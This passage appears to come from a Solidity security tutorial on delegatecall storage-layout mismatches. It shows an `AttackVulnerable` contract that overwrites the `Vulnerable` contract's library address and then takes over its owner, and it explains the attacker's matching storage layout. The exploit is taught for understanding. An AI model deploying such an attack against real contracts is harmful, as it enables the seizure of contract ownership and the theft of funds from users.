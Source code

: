 Now, let us make some observations. The first thing that we notice is that the contract `Lib` declares only one state variable, but the contract `Vulnerable` declares three state variables.

This is the weak spot where any attacker will try to start exploiting the contract, `Vulnerable`.

Like we did in the last example, let us see how the owner of the `Vulnerable` contract can be hijacked because of this mistake. Take a look at this contract written to attack the `Vulnerable` contract:

```solidity
contract AttackVulnerable {

    address public lib;
    address public owner;
    uint public num;

    Vulnerable public vulnerable;

    constructor(Vulnerable _vulnerable) {
        vulnerable = Vulnerable(_vulnerable);
    }

    function attack() public {
        vulnerable.performOperation(uint(address(this)));
        vulnerable.performOperation(9);
    }

    // function signature must match Vulnerable.performOperation()
    function performOperation(uint _num) public {
        owner = msg.sender;
    }
}
```

From the above code, our attacker is the contract called `AttackVulnerable`. The first thing we observe is that this contract has three state variables. These variables are in the same layout as the ones in the `Vulnerable` contract. It also has a state variable that holds the address of the `Vulnerable` contract. The actual value of the variable is assigned in the constructor

```solidity
		 // The storage layout is the same as Vulnerable
    // This will allow the attacker to correctly update the state variables
    address public lib;
    address public owner;
    uint public num;

		//The state variable to store the address of the contract, Vulnerable
    Vulnerable public vulnerable;

		//constructor
		constructor(Vulnerable _vulnerable) {
		        vulnerable = Vulnerable(_vulnerable);
		    }
```
